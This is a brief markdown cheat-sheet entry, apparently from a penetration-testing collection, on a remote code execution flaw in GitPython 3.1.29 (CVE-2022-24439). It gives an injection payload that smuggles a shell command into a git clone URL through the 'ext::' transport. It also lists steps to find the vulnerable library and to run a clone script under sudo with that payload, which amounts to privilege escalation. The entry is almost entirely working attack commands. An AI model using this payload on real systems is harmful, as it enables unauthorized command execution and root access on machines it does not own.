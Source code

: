 # Git Python RCE CVE-2022-24439.md

### Vulnerable Library version: 3.1.29

### Payload: 

    <gitpython::clone> 'ext::sh -c touch% /tmp/pwned'

### Enumeration:

#### 1) Check for all python libraries and dependencies installed on the machine

    pip3 list 
  
#### 2) If the Git Python library we found is vulnerable, we can execute the corresponding python program with the payload to RCE
  
#### 3) 

    sudo /usr/bin/python3 /path/to/gitclone.py 'ext::sh -c touch% /tmp/pwned'
